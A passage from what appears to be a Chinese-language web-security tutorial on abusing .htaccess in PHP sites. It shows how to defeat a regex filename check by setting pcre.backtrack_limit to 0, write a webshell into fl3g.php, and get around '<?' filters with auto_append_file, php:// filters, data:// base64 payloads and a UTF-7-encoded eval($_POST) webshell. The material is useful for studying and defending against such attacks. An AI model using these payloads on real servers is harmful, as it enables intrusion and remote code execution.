可以看到代码中的 preg_match 使用正则匹配限制filename只能是 `a-z` 和点号 `.` ，那我们便可以通过写入 .htaccess 设置回溯次数（pcre.backtrack_limit）为 0，从而绕过这里的正则回溯，直接将我们的Webshell写入fl3g.php。

首先将 pcre.backtrack_limit 的配置写入 .htaccess：

```
/index.php?filename=.htaccess&amp;content=php_value%20pcre.backtrack_limit%200%0Aphp_value%20pcre.jit%200%0A%23%20%5C
```

[![](https://p3.ssl.qhimg.com/t0130892f7847a819e5.png)](https://p3.ssl.qhimg.com/t0130892f7847a819e5.png)

然后访问以下 url 将 Webshell 写入fl3g.php：

```
/index.php?filename=fl3g.php&amp;content=&lt;?php phpinfo();?&gt;
```

执行后可以发现，成功将Webshell写入了fl3g.php：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e80b4350dee3f0c4.png)

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%20&lt;?%20%E7%89%B9%E6%AE%8A%E5%AD%97%E7%AC%A6"></a>绕过 &lt;? 特殊字符

有时候，目标环境会限制我们上传或写入的文件内容中不能存在 `&lt;?` 等特殊字符，如果没有限制 .htaccess 的话，我们同样可以使用 .htaccess 来绕过。

#### <a class="reference-link" name="Base64%20%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>Base64 编码绕过

主要就是利用 auto_append_file 和 PHP 伪协议，比如我们在一个图片中写入经过base64编码后的 Webshell，然后我们便可以使用 auto_append_file 配合 php://filter 将其包含进来：

```
php_value auto_append_file "php://filter/convert.base64-decode/resource=images.png"

# images.png 中是经过base64编码后的Webshell
```

我们直接使用data://协议也是可以的，这样就不需要上传 images.png 了：

```
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```

[![](https://p0.ssl.qhimg.com/t0105e17c142635497a.png)](https://p0.ssl.qhimg.com/t0105e17c142635497a.png)

#### <a class="reference-link" name="UTF-7%20%E7%BC%96%E7%A0%81%E6%A0%BC%E5%BC%8F%E7%BB%95%E8%BF%87"></a>UTF-7 编码格式绕过

这种方法我们在前文中已经涉及到了，比如我们在一个图片中写入 UTF-7 编码格式的 Webshell：

```
// images.png
+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```
